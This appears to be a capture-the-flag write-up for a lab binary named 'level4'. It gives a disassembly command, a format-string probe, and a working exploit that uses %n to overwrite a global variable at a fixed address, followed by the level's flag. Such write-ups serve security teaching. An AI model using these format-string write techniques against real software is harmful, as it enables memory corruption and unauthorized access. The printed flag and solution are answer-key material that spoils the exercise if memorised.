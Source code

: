# level4

## disassemble

```shell
objdump -dC -M intel level4
```

## exploit

```shell
python2.7 -c 'print("BBBB" + " %p"*12)'  | ./level4
```

```shell
# 8048488:       e8 b7 ff ff ff          call   8048444 <p>
# 804848d:       a1 10 98 04 08          mov    eax,ds:0x8049810
# 8048492:       3d 44 55 02 01          cmp    eax,0x1025544

python2.7 -c 'print("\x10\x98\x04\x08" + "%16930112x" "%12$n")' > /tmp/exploit.txt
cat /tmp/exploit.txt | ./level4
```

# flag

```shell
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
